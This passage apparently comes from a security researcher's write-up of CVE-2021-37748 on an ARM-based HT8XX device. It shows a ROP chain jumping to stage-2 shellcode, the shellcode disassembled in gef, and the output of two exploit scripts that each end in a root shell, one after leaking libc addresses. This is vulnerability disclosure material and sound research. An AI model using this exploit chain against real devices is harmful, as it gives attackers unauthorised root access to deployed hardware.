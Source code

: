 The R4-R11 registers are going to be populated with words from the stack starting at offset 0x0; finally popping the heap pointer at offset 0x20 into the program counter. The program flow will continue by executing the instructions stored at 0x16170, thus our **Stage2** shellcode:

```
gef➤  x/16i 0x00016170
   0x16170:	mov	r6, #198	; 0xc6
   0x16174:	lsl	r6, r6, #8
   0x16178:	add	r6, r6, #213	; 0xd5
   0x1617c:	lsl	r6, r6, #8
   0x16180:	add	r6, r6, #254	; 0xfe
   0x16184:	lsl	r6, r6, #8
   0x16188:	add	r6, r6, #176	; 0xb0
   0x1618c:	ror	r0, r6, r2
   0x16190:	mov	r6, #198	; 0xc6
   0x16194:	lsl	r6, r6, #8
   0x16198:	add	r6, r6, #213	; 0xd5
   0x1619c:	lsl	r6, r6, #8
   0x161a0:	add	r6, r6, #213	; 0xd5
   0x161a4:	lsl	r6, r6, #8
   0x161a8:	add	r6, r6, #76	; 0x4c
   0x161ac:	mov	pc, r6


```

Final exploits:

```
$ python3 CVE-2021-37748-path1-ssh.py
[*] Forcing allocation on the Heap.
[*] Shellcode len: 30
 
# uname -a; busybox id
Linux HT8XX 3.4.20-rt31-dvf-v1.2.6.1-rc2 #75 PREEMPT Fri Mar 26 16:38:10 CST 2021 armv5tejl GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
# 


$ python3 CVE-2021-37748-path2-ssh.py
[*] Executing Stage1
[*] puts      : 0xc6d64654
[*] libc_base : 0xc6d32000
[*] system    : 0xc6d9054c
[*] binsh     : 0xc6d92eb0
[*] Payload clean
[*] Executing Stage2
# uname -a; busybox id
Linux HT8XX 3.4.20-rt31-dvf-v1.2.6.1-rc2 #75 PREEMPT Fri Mar 26 16:38:10 CST 2021 armv5tejl GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
#


```
